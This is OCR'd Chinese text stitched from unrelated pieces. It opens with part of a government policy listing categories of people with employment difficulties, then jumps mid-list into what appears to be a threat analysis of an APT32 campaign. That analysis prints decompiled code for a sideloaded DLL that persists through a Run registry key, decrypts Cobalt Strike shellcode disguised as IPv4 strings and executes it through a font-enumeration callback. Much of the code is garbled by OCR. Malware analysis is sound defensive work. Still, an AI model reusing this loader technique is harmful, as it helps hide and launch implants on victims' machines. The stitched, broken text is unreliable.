 ### 三、就业困难人员范围  

1、具有本市户籍、在劳动年龄段内、有劳动能力、有就业要求，并在本市各级公共就业服务机构登记失业的以下人员：  

（1）男满50周岁、女满40周岁大龄城镇居民；（2）持有第三代残疾人证城镇居民；（3）城镇最低生活保障对象；（4）连续失业一年以上人员（其中农村进城务工劳动者须已参加失业保险）；  

先前保存的dropper程序用于解密并启动Cobalt_Strike,dropper程序的启动在Ink的参数部分实现：  

![](https://cdn-mineru.openxlab.org.cn/extract/a26fccab-5f2a-415e-b7df-39235cfc1aa6/3ec29d506aa54f10cee3798056f9d80f07dc958f438291f6c12fe49d56cf57cf.jpg)  
启动白文件  

白文件（LenovoDesk.exe）运行后加载QuickDeskBand.dll的ShowBatteryGauge函数：  

hLibModule $=$ LoadLibraryW(L"QuickDeskBand.dll");   
v11 $=$ sub_401920();   
sub_401BB0(v11,3,(int)L"32"，(int)L"main.cpp",97,v17);   
if（hLibModule）   
{ v12 = sub_401920(); sub_401BB0(v12,3,(int)L"hmodule",(int)L"main.cpp",101,v18); ShowBatteryGauge $=$ GetProcAddress(hLibModule, "ShowBatteryGauge"); if（ShowBatteryGauge) ((void (_cdecl \*)(int))ShowBatteryGauge)(v9);  

黑文件的加载后在dllmain中运行解密出后续的载荷，而ShowBatteryGauge导出的主要功能时将LenovoDesk.exe写入注册表run启动项中：  

![](https://cdn-mineru.openxlab.org.cn/extract/a26fccab-5f2a-415e-b7df-39235cfc1aa6/203d0558e6baf6be1079d9966882e12af9d812f672e4b049aaaab1da21fbc540.jpg)  
加载黑文件  

QuickDeskBand.dll加载后则必然会进入dlIMain中运行，dlIMain中首先获取主程序路径，并将后15位字符作为key解密数据：  

GetModuleFileNameA(0, Filename, 0xFFu);   
$v_{\mathrm{~\scriptsize{6~}}}=~15$   
for ( $\mathrm{~\boldmath~\underline{~}{~1~}~}=~\theta;$ $\mathrm{~\ensuremath~{~\hat{~}{~\phi~}~}~}<=\mathrm{~14~}$ $++\mathrm{i}$ ) \*((_BYTE \*)&fl0ldProtect[1] $+\mathrm{~i~}+\mathrm{~3~}$ $=$ Filename[i - 15 $^+$ strlen(Filename)];   
Addr $\l=$ (struct in_addr \*)lpAddress;   
for（ ${\begin{array}{l}{{\mathrm{~\boldmath~{~j~}~}}=~\theta.}\end{array}}$ ；j<v7；++j)   
{ for（ $k=~\theta$ ；k<=14; $++k$ ） s[k] $=$ \*(（_BYTE \*)&floldProtect[1]+k+ 3) $\hat{}$ off_6BAC3020[j][k];  

解密后的数据为IP点分十进制数据，通过Rtllpv4StringToAddressA将点分十进制IP地址转化为HEX地址形式数据，HEX地址形式的数据为COBALT STRIKE数据，之后通过设置枚举  

字体的回调立即启动Cobalt_Strike.  

RtlIpv4StringToAddressA(S,0,(PCSTR \*)S, Addr $^{*+}$ } VirtualProtect(lpAddress, 0x3380Cu, 0x20u, fl0ldProtect); hdc $=$ GetDC(0); EnumFontFamiliesW(hdc, 0, (FONTENUMPROCW)lpAddress, 0); return 0;  

## 解码CS数据  

Cobalt_Strike是一款付费渗透测试产品，允许攻击者在受害机器上部署名为"Beacon"的代理。Beacon为攻击者提供了丰富的功能，包括但不限于命令执行、按键记录、文件传输、SOCKS代理、特权升级、mimikatz、端口扫描和横向移动。Beacon是内存中/无文件的，因为它由无阶段或多阶段的shellcode组成，一旦通过利用漏洞或执行shellcode加载程序加载，就会反射性地将自身加载到进程的内存中，而不会触及磁盘。  

支持通过 HTTP、HTTPS、DNS、SMB 命名管道以及正向和反向TCP进行C2和分段；信标可以菊花链式连接。Cobalt Strike带有一个用于开发shellcode加载器的工具包，称为Artifact Kit。  

由于该平台强大的功能及兼容性许多APT组织也将CS列入自己的武器库中.在以往的APT32攻击活动中我们也经常发现其使用CS作为RAT程序.  
